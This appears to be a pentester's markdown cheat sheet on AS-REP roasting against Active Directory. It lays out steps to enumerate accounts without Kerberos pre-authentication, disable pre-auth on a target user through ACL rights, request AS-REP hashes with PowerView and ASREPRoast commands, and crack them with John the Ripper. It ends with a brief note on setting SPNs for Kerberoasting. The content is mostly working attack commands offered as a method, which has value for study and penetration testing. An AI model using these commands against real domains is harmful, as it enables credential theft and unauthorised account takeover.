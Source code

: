 ## <span style="color:lightgreen">Methodology/Steps</span>
- [x] 1. Enumerate the users who don't require Pre-auth
- [x] 2. You can try to disable the Pre-auth requirement of a user is you have the Permissions required
- [x] 3. Do a AS-REP request against the user and capture the hash
- [x] 4. Use JTR to crack the hash


## <span style="color:lightgreen">PowerView Dev</span>

### <span style="color:#F1C232">1. Enumerate users</span>

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

### <span style="color:#F1C232">Check RDPUsers rights on ACL's (extra)</span>
 
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

### <span style="color:#F1C232">Disable Kerberos Preauth (extra)</span>

```powershell
Set-DomainObject -Identity <user> -XOR @{useraccountcontrol=4194304} -Verbose
```


## <span style="color:lightgreen">ASREPRoast</span>

### <span style="color:#F1C232">2. Request AS-REP</span>

```powershell
Get-ASREPHash -UserName USER -Verbose
```

### <span style="color:#F1C232">To enumerate all users with Kerberos preauth disabled and request a hash (extra)</span>

```powershell
Invoke-ASREPRoast -Verbose
```

# <span style="color:lightblue">Set-SPN</span>

* With enough rights (**GenericAll/GenericWrite**), a target user's SPN can be set to anything (*unique in the domain*).
* We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".
